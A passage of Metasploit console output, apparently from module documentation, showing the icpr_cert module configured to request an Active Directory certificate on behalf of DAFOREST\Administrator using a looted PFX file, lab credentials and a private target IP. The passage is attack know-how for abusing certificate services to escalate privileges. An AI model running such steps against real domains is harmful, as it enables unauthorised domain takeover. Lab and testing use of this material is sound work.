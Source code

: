 ```
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT          445                          yes       The target port (TCP)
   SMBDomain      DAFOREST                     no        The Windows domain to use for authentication
   SMBPass        normaluser                   no        The password for the specified username
   SMBUser        normal                       no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF DAFOREST\\Administrator
ON_BEHALF_OF => DAFOREST\Administrator
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
PFX => /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  User                            yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216154930_default_unknown_win
                  dows.ad.cs_104207.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normaluser                      no        The password for the specified username
   SMBUser        normal                          no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

```